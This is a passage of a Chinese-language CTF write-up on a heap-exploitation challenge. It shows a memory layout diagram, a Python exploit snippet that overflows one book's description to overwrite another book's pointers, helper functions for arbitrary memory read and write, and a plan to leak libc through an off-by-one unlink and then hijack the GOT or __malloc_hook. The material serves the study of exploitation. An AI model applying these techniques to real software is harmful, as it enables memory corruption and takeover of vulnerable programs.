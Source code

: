 ```
                  |     0x20 | book1 name ptr     |         |
                  |          | book1 desc ptr     |         |
                  |          | book1 desc size    | 0x100   |
                  |          +--------------------+         |
                  |          +--------------------+         |
                  |     0x20 | book2 name buffer  |         |
                  |          ----------------------         |
                  |     0x20 | book2 desc buffer  |         |
                  |          ----------------------         |
                  +--------> | book2 seqnumber    | 2       |
                        0x20 | book2 name ptr     |         |
                             | book2 desc ptr     |<--------+
                             | book2 desc size    | 0x20     
                             +--------------------+
```

于是我们可以通过 `LIBRARY[0]` 控制 `LIBRARY[1]` 的指针，从而修改/读取任意地址。

泄露的脚本如下：

```python
        # todo: get arbitrary address write&read
        self.create(0x20, "D" * 0x20, 0x20, "E" * 0x20)  # 2
        offset = library0 & 0xff
        assert offset >= 0x20
        payload = "C"*(0x100+0x10 - offset) + p64(0x1) \
                  + p64(library0 + 0x20 + 0x10) \
                  + p64(library0 + 0x20 + 0x30 + 0x30 + 0x10 + 0x10) \
                  + p64(0x100)
        self.edit(1, payload)
        self.set_author_name("A" * 32)
        print "get arbitrary address write&read"
```

可以通过下面两个函数进行任意读写：

```python
    def write_to(self, addr, content):
        self.edit(1, p64(addr) + p64(len(content) + 1))
        self.edit(2, content)

    def read_from(self, addr):
        self.edit(1, p64(addr))
        self.detail()
        desc = [ld["Description"] for ld in self.library_detail if ld["ID"] == "2"]
        assert len(desc) == 1
        return u64((desc[0] + "\x00\x00")[:8])
```

#### leak_libc

除此之外我们还需要泄露 `libc地址/栈地址`，之后通过写 `got` 表劫持流程或者写 `__malloc_hook` 劫持流程等。

因为 `off-by-one` 漏洞的存在，我们可以利用 `unlink` 方法，因为此时堆区就被放入了`unsorted bins` 的双向链表中，这样就可以将 `main_arena.bins` 的地址写入堆区中。
